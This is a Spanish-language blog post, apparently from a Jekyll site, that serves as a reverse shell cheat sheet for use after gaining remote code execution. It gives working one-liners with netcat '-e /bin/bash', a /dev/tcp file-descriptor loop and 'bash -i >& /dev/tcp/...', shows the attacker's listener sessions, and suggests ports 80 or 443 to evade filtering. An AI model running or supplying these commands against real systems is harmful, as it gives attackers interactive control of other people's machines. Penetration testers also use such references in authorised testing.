 ```yaml
---
layout: post
title:  Reverse shells
excerpt: Reverse shell cheat sheet
bigimg: '/img/reverse-shell.png'
tags: [netcat, security, shell]
---
```

Situación: encontrado un método de RCE pero sin posibilidad de acceso a la shell. Solución: _bind_ de la shell a un puerto TCP.

## netcat

Esto ya lo vimos hace tiempo en este [articulo]. Lo que ocurre es que:

* nc/netcat no siempre estará disponible
* si lo está, es posible que no tenga la opción `-e`

En ese caso, puedo ponerme a escuchar (en un puerto accesible al sistema de destino):

```shell
nc -l 8080
```

Y en destino:

```shell
nc 192.168.56.1 8080 -e /bin/bash
```
Ya podemos ejecutar comandos en el sistema remoto cómodamente sentados frente a nuestra máquina:

```shell
user@mihost:~$ nc -l 8080
hostname
vmjessie
```

La máquina objeto de la ejecución de la shell inicia una conexión hacia el puerto de escucha (8080 en el ejemplo). Por eso es necesario elegir un puerto accesible, no filtrado; una elección segura serían los puertos 80 o 443.

## bash

En este caso no vamos a usar `nc` en el equipo objetivo, sino un descriptor asociado a un socket donde vamos a enviar las salidas de la shell. Partimos de nuestro equipo (en el ejemplo, nuestra IP es 192.168.56.1), donde estamos escuchando (con `nc` o lo que sea, da igual) en un puerto accesible:

```shell
nc -vvv -l 8080
```

Y en el objetivo:

```shell
exec 5<>/dev/tcp/192.168.56.1/8080
cat <&5 | while read line; do $line 2>&5 >&5; done
```

Con esto, los comandos que tecleemos en nuestra máquina son ejecutados en la remota y la salida nos llega a nosotros:

```shell
user@192.168.56.1:~$ nc -vvv -l 8080  
hostname
target
```

Mediante esta otra sintaxis:

```shell
user@target:~$ bash -i >& /dev/tcp/192.168.56.1/8080 0>&1
```

tenemos igualmente la consola en nuestra máquina, prompt incluido:

```shell
user@192.168.56.1:~$ nc -vvv -l 8080  
user@target:~$ hostname
hostname
target
```

Si hay alguna razón para ejecutar la shell vía algún lenguaje de scripting (PHP, Perl, Python, Java, Ruby... ¡¡Gawk!!) [aquí] hay un montón de pruebas de concepto para entretenerse un rato.

[articulo]:/2015-06-08-netcat-primer
[aquí]:https://highon.coffee/blog/reverse-shell-cheat-sheet/
